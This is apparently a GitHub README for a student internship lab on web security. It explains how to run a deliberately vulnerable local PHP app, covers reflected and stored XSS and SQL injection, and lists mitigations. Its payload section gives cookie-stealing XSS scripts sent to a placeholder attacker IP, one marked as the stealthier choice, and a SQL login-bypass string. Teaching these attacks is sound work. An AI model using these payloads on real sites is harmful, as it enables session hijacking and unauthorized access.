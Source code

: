 # Internship cyber security course
This repository collects tools and methodologies used in the context of system security intership
## Start the Lab
- Install docker for windows
- Clone\download this repository
- Start docker
- Open a command prompt inside the project root directory and execute the following command:

  		docker compose up --build
		
### For XSS vulnerability
- Visit the vulnerable page at: http://localhost:9000/xss.php

### SQLi vulnerability
- Initialize the SQLite db at: http://localhost:9000/initDB.php. You should get a response with "Done"
- Visit the vulnerable page at: http://localhost:9000/sqlI.php 

## Students
1. Dario Collini
2. Andrea Di Caro
## Analyzed vulnerabilities
- XSS reflected
- XSS stored
- SQL injection

## Payloads
### Reflected
    <script>window.location.href="http://<attacker IP>:8000/a.html?c="+document.cookie</script>
### Stored
Not the best approach, generates a bunch of requests, very loud

    <img src="x" onerror=this.src='http://<attacker IP>:8000/'+document.cookie; />
    
More stealth, use this one

    <script>i=document.createElement('img');i.src='http://<attacker IP>:8000/'+document.cookie;document.body.appendChild(img)</script>
    
###**SQLI**
	a' OR 1=1 --

		

## Vulnerabilities Scenario and actions
### Steps for Vulnerability Analysis

#### 1. Information Gathering:
- **Application Observation**: Analyze the web application to identify points where user input is used to create SQL queries. These may include login forms, search forms, or any other form that interacts with the database.
- **Identifying Vulnerable Parameters**: Identify which parameters (e.g., query string, form fields, cookies) could be vulnerable to SQLi.

#### 2. Injection Testing:
- **Manipulated Input**: Inject various test payloads, such as `<script>alert(0);</script>`. A vulnerable application will run the script and display the alert.
- Once testing confirms vulnerability, the attacker may proceed with one of the following attack types:

---

### SQL Injection

**SQL Injection** occurs when attackers exploit flaws in poorly written PHP code to inject malicious code into a web application, leading to the execution of arbitrary commands on the server.

---

### Cross-Site Scripting (XSS)

**Cross-Site Scripting (XSS)** occurs when the server or application does not properly sanitize user input, allowing attackers to inject malicious scripts into web pages that will be executed in the browsers of users visiting the page.

#### There are 2 types of Cross-Site Scripting (XSS):
1. **Stored XSS**  
   Stored XSS is a type of Cross-Site Scripting where the malicious script injected by the attacker is stored on the server (e.g., in a database, file, or log).

2. **Reflected XSS**  
   Reflected XSS is a type of Cross-Site Scripting where the malicious code is not stored on the server but is instead reflected immediately in the server's response.

---

### Key Difference in Cookie Theft Methods Between Stored and Reflected XSS:

- **Stored XSS**: In this case, the attacker can redirect the user’s cookie to their own web server, which is always listening. This allows the attacker to steal the cookie every time someone visits the page.
  
- **Reflected XSS**: Here, the attacker needs the user to open a malicious link that leads to a website with a command that allows the attacker to redirect the user’s cookie toward them. This can only be done with some prior social engineering research to trick the user into clicking the link.

---

### Mitigation:

Mitigation refers to the methods we can use to make our websites secure and protected against these types of attacks.

- **Input Sanitization**: Filter user input to remove any malicious HTML or JavaScript tags.
  
- **Output Escaping**: Escape user input before displaying it on the HTML page, meaning converting special characters into sequences that are not interpreted as code by the browser.

- **Setting a Content Security Policy (CSP)**: Use a CSP to limit executable resources in the browser (such as scripts and styles) and prevent the execution of unauthorized scripts.


